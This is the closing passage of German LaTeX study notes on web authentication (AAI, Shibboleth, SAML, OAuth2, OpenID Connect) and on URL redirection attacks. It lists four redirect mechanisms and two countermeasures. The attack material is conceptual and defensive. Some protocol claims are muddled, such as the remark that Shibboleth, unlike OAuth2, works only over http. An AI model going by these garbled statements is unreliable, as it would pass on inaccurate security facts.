\subsection{AAI: Authentication \& Authorization Infrastructure}
AAI erlaubt einen globalen Zugang zu mehreren Resourcen über eine einheitliche Schnittstelle. AAI ist ein Verfahren, Angehörigen unterschiedlicher Institutionen Zugriff auf geschützte Informationsangebote zu ermöglichen, die verteilt auf unterschiedlichen Webservern liegen. Der Benutzer hat nur noch ein Credential und meldet sich beim Identity Provider an. Anschliessend bekommt er eine portable Identität, mit welcher er sich an den eigentlichen Resourcen (z.B e-Learning, Studenten Administration, Web Portal, etc.) anmelden kann.

\subsection{Shibboleth}
SwitchAAI setze auf Shibboleth auf. Shibboleth basiert auf HTTP Redirections und es ist deshalb nur für Webanwendungen brauchbar. Im Gegensatz zu OAuth2 kann auch nur http verwendet werden.

\subsection{SAML: Security Assertion Markup Language}
SAML ist ein XML-Standard zum Austausch von Authentifizierungs- und Autorisierungsinformationen. 

\subsection{OAuth2 Authorization Framework}
OAuth ist ein offenes Protokoll, das eine standardisierte sicher API Autorisierung (nicht Authentifizierung) für Desktop, Web und Mobile Anwendungen erlaubt. Seit OAuth2 wird keine Krypto mehr angeboten, sondern man verlässt sich komplett auf TLS. Aus diesem Grund kann OAuth2 nur mit HTTPS verwendet werden.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.4\linewidth]{images/oauth2}
	\caption{OAuth 2.0}
	\label{fig:oauth2}
\end{figure}


\subsection{OpenID Connect}
OpenID Connect ist ein dezentrales Authentifizierungssystem für webbasierte Dienste. (Layer über OAuth2, der die Sicherheit hinzufügt). Es erlaubt einem Benutzer, der sich bei seinem sogenannten OpenID-Provider einmal mit Benutzername und Kennwort angemeldet hat, sich nur mit Hilfe der sogenannten OpenID (URL Identifier) ohne Benutzername und Passwort bei allen das System unterstützenden Websites, den sog. Relying Parties, anzumelden, wendet also das Single Sign-on-Prinzip an.

OpenID setzt sich momentan stark bei Webdienste durch (z.B. wird es von Google, Facebook etc. eingesetzt).

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.5\linewidth]{images/openid}
	\caption{OpenID}
	\label{fig:openid}
\end{figure}


\section{URL Redirection Attack}
URL Redirection wird oft aus Marketing und Statistik-Gründen verwendet, da damit mehr Klicks auf dem eigenen Server stattfinden und z.B. Weiterleitungen aus Werbebannern verrechnet werden können.

\subsection{Attack}
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/url-redirection}
	\caption{URL Redirection Exploit}
	\label{fig:url-redirection}
\end{figure}

\subsection{Redirection Types}
Type1 und 2 ist von Interesse
\begin{description}
	\item[Type 1: 302 Found] Temporarly moved. HTTP Response Header ''\lstinline|Location: http://other-site/|''
	\item[Type 2: 200 OK] Http Response Header ''\lstinline|Refresh: 0; URL=http://other-site/|''
	\item[Type 3: 200 OK] ''\lstinline|<META HTTP-EQUIV="Refresh" CONTENT="5; URL=http://foo.bar/blatz.html">|''
	\item[Type 4: JavaScript] ''\lstinline|document.location=XXX|''
\end{description}


\subsection{Massnahmen}
\begin{enumerate}
	\item Input Validation: Redirect Parameter Validieren
	\item Lookup Tables: Mappings erstellen zwischen Parameter und URL
\end{enumerate}

\appendix

% Code Listings
\lstlistoflistings

% List of figures
\listoffigures

% List of tables
\listoftables

% Bibliography
\bibliographystyle{plain} 
\bibliography{literatur}

\end{document}
